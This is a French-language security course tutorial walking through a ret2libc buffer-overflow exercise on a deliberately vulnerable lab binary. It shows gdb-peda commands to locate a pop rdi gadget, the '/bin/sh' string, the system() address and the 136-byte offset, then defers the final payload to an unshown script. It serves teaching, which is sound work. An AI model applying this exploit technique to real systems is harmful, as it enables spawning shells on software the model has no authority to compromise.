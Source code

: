 ## Return 2 libc

* Le binaire est compilé avec le flag NX activé (moyen de protection par le noyau rendant la pile non exécutable).

* Le mécanisme de randomisation de l'espace d'adresse ASLR est désactivé


![ret1](https://github.com/aabda2000/sti3a-security/assets/38082725/a7908f53-49b0-4ed9-8a84-5e8b42212306)


## Comment retourner à libc ?
Ici, l'objectif est de détourner le flot d'exécution normal du processus : Il s'agit de le rediriger pour exéuter la fonction system de libc:

int system(const char *command). 

plus précisément, on voudrait exécuter l'instruction : system("/bin/sh")

## Gadget poprdi ?

On commence notre investigation par la recherche d'un gadget de type pop rdi (il faut d'abord faire un break,sur vuln par exemple, dans gdb, et ensuite lancer le programme):


![ret2](https://github.com/aabda2000/sti3a-security/assets/38082725/b24826df-0697-4033-baf7-e3a3d395324a)

sinon, vous pouvez cherchez ce gadget en fournissant les adresses de début et de fin de mappage de libc:

![ret3](https://github.com/aabda2000/sti3a-security/assets/38082725/50c7c117-e152-4260-a75e-13440038dfa0)


gdb-peda$ ropsearch "pop rdi ; ret" 0x00007ffff7dee000 0x00007ffff7faf000

ou

gdb-peda$ dumprop

ou

gdb-peda$ asmsearch "pop rdi ; ret"

## Chercher l'adresse de la chaîne "/bin/sh"

![ret4](https://github.com/aabda2000/sti3a-security/assets/38082725/e73f41cb-5a46-478e-8a6c-3b82b30164a4)

## Chercher l'adresse de la fonction system

gdb-peda$ p system

$1 = {int (const char *)} 0x7ffff7e36e50 <__libc_system>

gdb-peda$

## Chercher l'offset

gdb-peda$ pattern_create 400 entry.txt

Writing pattern of 400 chars to filename "entry.txt"

gdb-peda$ 

gdb-peda$ r < <(cat entry.txt)

Starting program: /home/insa/advanced/secu/cm/02-ret2libc/ret2libc < <(cat entry.txt)

adress of buf=0x7fffffffde10

Stopped reason: SIGSEGV

0x0000000000401178 in vuln () at ret2libc.c:10

10	}

gdb-peda$ x/1wx $rsp

0x7fffffffde98:	0x41514141

gdb-peda$ pattern offset 0x41514141

1095844161 found at offset: 136


l'offset vaut 136

La génération d'une erreur de segmentation (et d'un coredump (contenant l'état de la mémoire au moment du décès du processus,
sous GNU/Linux) est le syndrome que notre application est effectivement affectée par l'insertion d'un trop grand nombre de caractères en entrée.

## Lancez l'attaque

Mettez les différentes adresses trouvées dans le script pyton monexploit.py


